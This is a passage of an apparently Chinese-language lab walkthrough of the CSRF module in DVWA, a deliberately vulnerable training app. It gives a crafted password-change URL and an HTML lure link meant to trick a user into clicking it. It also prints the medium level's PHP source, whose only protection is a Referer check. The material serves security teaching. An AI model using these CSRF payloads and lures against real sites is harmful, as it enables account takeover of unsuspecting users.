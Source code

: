 通过get得到三个参数change、password_new、password_conf，password_new和password_conf想同则修改，没有任何防护

构造链接

```
http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#
```

![image-20250510190548161](images/image-20250510190548161.png)

也可以制作页面，诱导用户点击

```html
<a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#"><img src="">点击重试</a>
```

## medium

看源码

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $current_user = dvwaCurrentUser();
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
